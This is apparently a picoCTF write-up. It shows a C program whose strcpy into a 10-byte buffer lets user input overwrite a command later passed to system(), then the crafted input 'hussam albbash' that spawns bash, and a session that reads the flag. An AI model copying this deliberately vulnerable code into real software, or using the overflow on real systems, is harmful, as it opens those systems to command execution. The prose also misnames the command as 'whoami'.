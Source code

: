 Now we have this program  :

```
#include <string.h>
#include <stdio.h>
#include <stdlib.h> 

void fun(char *name, char *cmd);

int main() {
    char name[200];
    printf("What is your name?\n");
    fflush(stdout);
    fgets(name, sizeof(name), stdin);
    name[strcspn(name, "\n")] = 0;

    fun(name, "uname");
    return 0;
}
void fun(char *name, char *cmd) {
    char c[10];
    char buffer[10];

    strcpy(c, cmd);
    strcpy(buffer, name);

    printf("Goodbye, %s!\n", buffer);
    fflush(stdout);
    system(c);  
}
```
This program declares a buffer of 200 bytes , then it reades to it from stdin buffer .

**Now,the line :**
```name[strcspn(name, "\n")] = 0;```
is just like finding the index of \n , and replacing it with null byte '\0' .

Then the buffer is passed with other string literal ```whoami``` , which is obviously a linux command .

**gettting to the interesting part:**
The function declares two buffers of size 10 characters , then it uses strcpy (vulnerable function , to length checking)
to copy the passed strings to these buffers .

**Now using gdb , after setting a break point after buffer and c declaration , we have these adresses :**
```
&buffer =0x7fffffffdf9c
&w=7fffffffdfa6
```

That indicates that buffer is lower on the stack than c ,so lets try to buffer-overflow for buffer ,to overwrite c with a shell invoking command :

**Note that the differnce between the two adresses is 10 ,so they are contagious ,
we craft this input based on that fact :
```
hussam albbash   (hussamalb for the first buffer , so , bash will overflow to the next ).
```

Finally running that on the server gives us :
```
What is your name?
hussam albbash
Goodbye, hussam albbash!
ls -la
total 16
drwxr-xr-x 1 ctf-player ctf-player   22 Sep 30 23:29 .
drwxr-xr-x 1 root       root         24 Sep 30 23:29 ..
-rw-r--r-- 1 ctf-player ctf-player  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ctf-player ctf-player 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ctf-player ctf-player  807 Feb 25  2020 .profile
-r-------- 1 ctf-player ctf-player   34 Sep 30 23:29 flag.txt
cat flag.txt	
picoCTF{0v3rfl0w_c0mm4nd_3766e70a}

```


**And that`s it , it was a good exercise .**